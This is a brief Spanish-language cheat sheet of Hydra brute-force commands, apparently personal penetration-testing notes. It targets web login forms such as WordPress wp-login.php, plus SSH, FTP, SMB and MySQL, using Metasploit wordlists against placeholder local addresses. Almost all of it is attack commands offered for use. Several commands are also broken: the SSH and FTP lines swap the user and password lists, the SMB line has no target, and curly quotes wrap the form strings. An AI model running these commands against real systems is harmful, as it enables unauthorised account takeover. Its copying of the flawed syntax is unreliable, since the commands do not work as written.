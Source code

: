 # Hydra Fuerza Bruta

Propietario: Adrian Gisbert Cabello

- Comando para HTTP-POST:
    
    `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.X.X http-post-form ‘URL:LOGIN_CAPTURADO_EN_BURPSUITE:MENSAJE_DE_ERROR’ -t 64 -F`
    
    `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.X.X http-post-form ‘/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302’ -t 64 -F`
    
    Los parámetros ***-t 64*** son los hilos que va a correr y ***-F*** es para que cuando encuentre una combinación válida, se detenga el ataque de fuerza bruta.
    
- Comando para ssh:
    
    `hydra -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt -L /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://192.168.X.X`
    
- Comando para FTP:
    
    `hydra -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt -L /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [ftp://192.168.X.X](ftp://192.168.x.x/)`
    
- Comando para SMB:
    
    `hydra -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt`
    
- Comando para MySQL:
    
    `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://192.168.X.X`